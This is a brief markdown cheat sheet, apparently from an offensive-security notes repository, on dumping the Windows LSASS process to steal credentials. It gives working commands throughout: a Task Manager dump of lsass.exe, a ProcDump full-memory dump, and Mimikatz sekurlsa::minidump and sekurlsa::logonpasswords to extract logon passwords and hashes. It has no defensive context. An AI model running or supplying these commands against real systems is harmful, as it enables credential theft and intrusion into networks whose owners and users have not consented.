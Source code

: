 # Dumping LSASS.exe

Task Manager
```
lsass.exe --> right click --> Create Dump File
```

ProcDump
```
procdump.exe -accepteula -ma lsass.exe lsa.dmp
```
Mimikatz
```
sekurlsa::minidump lsa.dmp
sekurlsa::logonpasswords
```
